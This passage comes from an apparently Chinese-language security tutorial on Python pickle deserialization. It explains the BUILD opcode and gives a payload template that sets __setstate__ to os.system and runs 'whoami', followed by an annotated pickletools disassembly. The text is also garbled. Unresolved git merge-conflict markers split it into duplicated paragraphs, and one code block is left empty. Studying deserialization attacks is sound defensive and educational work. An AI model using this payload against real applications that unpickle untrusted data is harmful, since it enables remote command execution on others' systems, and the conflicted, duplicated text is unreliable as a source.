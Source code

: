 ```plain
                setattr(inst, k, v)
    dispatch[BUILD[0]] = load_build
```

简单地说，`b` 操作符有两种用法

1.  向一个实例中插入属性，或覆盖属性
2.  以一个实例的`__setstate__`属性为 `func`,`b` 的前一个元素当作 `arg`, 执行 `func(arg)`

<<<<<<< HEAD
`b` 操作符的工作方式:

1.  弹栈，此元素为 `state`.
2.  取栈顶元素，此元素为 `setstate`. 此元素可以是一个实例，也可以是一个字典。如果是一个实例，那么会尝试获取这个实例的`__setstate__`属性的值.
3.  如果`__setstate__`存在，那么执行 `setstate(state)`.
4.  如果`__setstate__`不存在，判断 `state` 的类型。如果是元组，并且元组中只有两个元素，那么就按顺序给 `state` 和 `slotstate` 赋元组中的元素，然后根据 `state` 字典中的键值对给 `inst.__dict__`更新属性的值。如果 `slotstate` 是一个字典，那么也根据 `slotstate` 的键值对给 `inst` 更新属性的值.
5.  如果不是元组，那么就根据 `state` 字典中的值更新 `inst.__dict__`的值.

因为存在

```plain
=======
`b` 操作符的工作方式：

1.  弹栈，此元素为 `state`.
2.  取栈顶元素，此元素为 `setstate`. 此元素可以是一个实例，也可以是一个字典。如果是一个实例，那么会尝试获取这个实例的`__setstate__`属性的值。
3.  如果`__setstate__`存在，那么执行 `setstate(state)`.
4.  如果`__setstate__`不存在，判断 `state` 的类型。如果是元组，并且元组中只有两个元素，那么就按顺序给 `state` 和 `slotstate` 赋元组中的元素，然后根据 `state` 字典中的键值对给 `inst.__dict__`更新属性的值。如果 `slotstate` 是一个字典，那么也根据 `slotstate` 的键值对给 `inst` 更新属性的值。
5.  如果不是元组，那么就根据 `state` 字典中的值更新 `inst.__dict__`的值。

因为存在

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if setstate is not None:
            setstate(state)
            return
```

<<<<<<< HEAD
这一功能，那么 `b` 操作符理所当然地可以用来进行命令执行.

`b` 操作符的使用模板

```plain
b'c__main__\ns1nk\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
```

用 pickletools 看一下过程.

```plain
0: c    GLOBAL     '__main__ s1nk' #引入一个模块
   15: )    EMPTY_TUPLE   #压入一个空元组
   16: \x81 NEWOBJ        #创建一个c引入模块的实例,并以元组作为传入的元素
   17: }    EMPTY_DICT    #压入一个空字典
   18: X    BINUNICODE '__setstate__'  #压入一个字符串"__setstate__”
   35: c    GLOBAL     'os system'     #压入一个os.system模块
   46: s    SETITEM                    #弹出两个元素,分别作为value和key,再取当前栈顶元素为dict,dict[key]=value
   47: b    BUILD                      #实例没有__setstate__属性,那么就把字典的键值对赋给实例
   48: X    BINUNICODE 'whoami'        #压入字符串"whoami”
   59: b    BUILD                      #实例有__setstate__属性,执行了os.system(whoami)
=======
这一功能，那么 `b` 操作符理所当然地可以用来进行命令执行。

`b` 操作符的使用模板

```bash
```
